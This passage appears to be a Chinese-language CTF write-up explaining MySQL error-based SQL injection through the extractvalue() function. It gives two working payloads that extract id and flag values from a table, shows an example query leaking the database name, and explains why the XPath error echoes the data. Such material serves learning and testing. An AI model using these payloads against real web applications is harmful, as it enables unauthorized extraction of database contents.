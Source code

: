 **获取数据**

第一段

```
1' and 1=extractvalue(1,concat('~',(select group_concat(id,'~',flag) from test_tb)))#
```

![image-20250803205937461](./NSSCTF-2.assets/image-20250803205937461.png)

第二段

```
1' and 1=extractvalue(1,concat('~',(select substring(group_concat(id,'~',flag),31,30) from test_tb)))#
```

![image-20250803210032435](./NSSCTF-2.assets/image-20250803210032435.png)

## **`extractvalue()` 函数**

`extractvalue()` 报错注入是 **MySQL 特有的一种报错注入手法**，其核心原理是利用 `extractvalue()` 函数对 **非法 XPath 表达式** 的解析报错，将我们想要的数据拼接进报错信息，从而在页面中回显数据库数据。

- 语法：

  ```
  extractvalue(XML_document, XPath_string)
  ```

- 作用：
   从 XML 文档中提取满足 XPath 表达式的值。

**当 XPath 表达式不合法或找不到节点时，会报错**，错误信息会包含我们传入的内容。

###  **报错注入的利用**

通过在 `extractvalue()` 的第二个参数中构造恶意内容，引发报错并让报错信息携带查询结果。

例如：

```
SELECT extractvalue(1, concat(0x7e, database(), 0x7e));
```
